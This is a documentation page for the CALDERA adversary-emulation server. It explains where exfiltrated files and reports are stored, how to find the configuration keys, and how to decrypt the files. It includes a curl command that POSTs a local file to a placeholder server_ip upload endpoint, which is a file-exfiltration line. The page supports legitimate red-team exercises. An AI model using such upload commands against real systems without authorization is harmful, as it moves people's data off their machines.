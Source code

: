 # Exfiltration

After completing an operation a user may want to review the data retreived from the target system. This data is automatically stored on the CALDERA server in a directory specified in [/conf/default.yml](Server-configuration.html#the-existing-default-yml).

## Accessing Exfiltrated Files

Some abilities will return files from the agent to the CALDERA server. This can also be done manually with 
```yaml
curl -X POST -F 'data=@/file/path/' http://server_ip:8888/file/upload
```
Note: localhost could be rejected in place of the server IP. In this case you will get error 7. You should type out the full IP.
These files are sent from the agent to server_ip/file/upload at which point the server places these files inside the directory specified by [/conf/default.yml to key "exfil_dir"](Server-configuration.html#the-existing-default-yml). By default it is set to /tmp


## Accessing Operations Reports

After the server is shut down the reports from operations are placed inside the directory specified by the [/conf/default.yml to key "reports_dir"](Server-configuration.html#the-existing-default-yml). By default it is also set to /tmp


## Unencrypting the files
The reports and exfiltrated files are encrypted on the server. To view the file contents the user will have to decrypt the file using /app/utility/file_decryptor.py . This can be performed with:

```shell
python /app/utility/file_decryptor.py --config /conf/default.yml _input file path_
```

The output file will already have the _decrypted tag appended to the end of the file name once the decrypted file is created by the python script.
